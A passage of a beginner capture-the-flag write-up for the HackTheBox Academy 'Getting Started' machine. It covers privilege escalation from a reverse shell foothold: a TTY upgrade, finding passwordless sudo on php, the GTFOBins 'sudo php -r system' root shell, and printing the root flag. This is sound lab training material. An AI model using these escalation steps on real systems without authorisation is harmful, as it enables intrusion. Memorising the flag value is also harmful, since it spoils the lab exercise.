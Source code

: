 Now , let's move on to to escalating privileges to the root user.## Escalating Privileges - Becoming the root User
Now that we've got a foothold on the machine through a reverse shell, we are asked to escalate privleges to the root user and submit the flag of **root.txt**.

Now would probably be a good time for us to upgrade our terminal to a nicer TTY terminal to get some of the good ol' Linux functionality. We can do this by running the following command.

`> python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now, let's run the following commands to check what `sudo` privileges we have.

` > sudo -l`

```bash
Matching Defaults entries for www-data on gettingstarted:                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                 
                                                                                                                                                      
User www-data may run the following commands on gettingstarted:                                                                                       
    (ALL : ALL) NOPASSWD: /usr/bin/php
```
From the output, we are told that we can run all commands using the `php` binary as sudo without a password. 

When we have misconfigured sudo privileges within the user binaries, we can easily refer to [GTFOBins](https://gtfobins.github.io) for the command needed to escalate to the root user. If we search "php" on GTFOBins and click on `SUDO`, the command given should look like this.

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```
To avoid any complications with declaring environmental variables, we'll use the following command as a substitute.

 `> sudo php -r "system('/bin/sh');"`

So let's test if we escalated privileges with a simple `whoami` query.

```bash
> whoami
root
```
Voila! We are now **root**. Let's run the `find` command we used earlier to find the contents of the **root.txt** file. 

```bash
> find / -iname root.txt 2>/dev/null
/root/root.txt
> cd /root
> ls
root.txt
> cat root.txt
f1fba6e9f71efb2630e6e34da6387842
```
Congratulations, the final flag is ==f1fba6e9f71efb2630e6e34da6387842==. You have officially completed the module!
The machine from the Getting Started module in HackTheBox Academy is a great first CTF for any beginner. I would recommend some basic knowledge of linux and tool usage , but the module does a great job in going over some of the skills and then letting the user try to pwn the machine on their own. If you would like to try the module yourself, here is the [link](https://academy.hackthebox.com/course/preview/getting-started).

**Have fun and happy hacking!**
